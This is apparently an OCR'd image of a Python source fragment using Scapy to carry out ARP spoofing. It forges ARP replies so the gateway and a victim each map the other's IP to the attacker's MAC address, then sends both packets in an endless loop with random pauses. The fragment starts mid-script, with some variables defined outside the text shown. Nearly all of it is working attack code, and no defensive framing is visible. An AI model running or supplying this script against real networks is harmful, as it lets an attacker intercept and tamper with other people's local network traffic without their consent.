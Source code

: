 \begin{verbatim}
go1 = Ether(dst=gateway_mac,     #sending to gateway
	src=my_mac) / reply1     #origin at attacker's mac


reply2 = ARP(op=ARP.is_at,       #forging arp reply
	hwsrc=my_mac,            #attacker's mac as gateways's
	psrc=gateway_ip,         #gateway's IP to attacker's mac
	hwdst=victim_mac,        #telling victim
	pdst=victim_ip)          #victim IP

go2 = Ether(dst=victim_mac,      #sending to victim
	src=my_mac) / reply2     #origin at attacker's mac

#==============================================================
# Change MAC in ARP Tables of the Gateway and the Victim
#==============================================================
i = 0
while  1:
	i = i+1
	print("ARP SPOOFING #" + str(i))
	
	print(go1.summary())
	s.send(go1)              #send ARP packet to gateway
	
	print(go2.summary())
	s.send(go2)              #send ARP packet to victim
	
	print()
	time.sleep(randint(5, 10)) #random sleep
                                   #otherwise too much traffic 
\end{verbatim}